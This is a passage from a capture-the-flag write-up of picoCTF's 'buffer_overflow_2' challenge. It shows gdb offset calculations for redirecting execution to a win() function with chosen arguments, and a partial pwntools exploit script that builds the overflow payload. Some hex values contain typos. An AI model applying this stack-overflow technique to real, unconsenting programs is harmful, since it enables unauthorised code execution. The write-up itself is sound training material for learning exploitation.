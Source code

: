 Running `p win` shows that the address of the function is at `0x8049296`. I then constructed my payload with 112 A's followed by the return address to see what happens.

![win_stack](./buffer_overflow_2/win_stack.png)

Sure enough, the program does step into the `win()` function. Looking at the source code, we can deduce that we want to compare the value at `ebp+0x8` to be equal to `0xcafef00d` and the value at `ebp+0xc`. Breaking at `win+7` after `esp` was moved to `ebp` shows that `ebp` points to address `0xffffd04c`, which is the same place on the stack as the return address of `vuln()`. Doing some offset calculations shows that we need address `0xffffd054` and `0xffffd058` on the stack to be updated to `0xcafefood` and `0xf00df00d` respectively.

![win_return_address](C:\Users\jason\Documents\GitHub\picoCTF_2022\Binary_Exploitation\buffer_overflow_2\win_return_address.png)

We need 4 bytes of padding to fill the space from address `0xffffd050` to `0xffffdo53`, and after that is where the arguments start. 

We can see that doing an `info frame` in the `win()` function after `ebp` is updated that the location of the return address (`saved register eip`) is at `0xffffd050`, which is the pointer between the end of the buffer and the start of `arg1`. Also don't forget to do `touch flag.txt` to create a temporary flag file.

Quick note: You can switch between the terminal and the UI by typing `focus asm` and `focus cmd`.

Code for `buffer_overflow_2.py`:

```python
from pwn import *

port = 57649
debug = 1

if not debug:
        p = remote('saturn.picoctf.net', port)
else:
        p = process('./vuln')

print(p.recvline())

offset = 0xffffd04c - 0xffffcfdc        # start of return address - start of buffer
offset2 = 0xffffd054 - 0xffffd04c - 4   # start of arg1 - start of return address - 4 bytes
payload = b'A' * offset                 # padding
payload += p32(0x8049296)               # win
```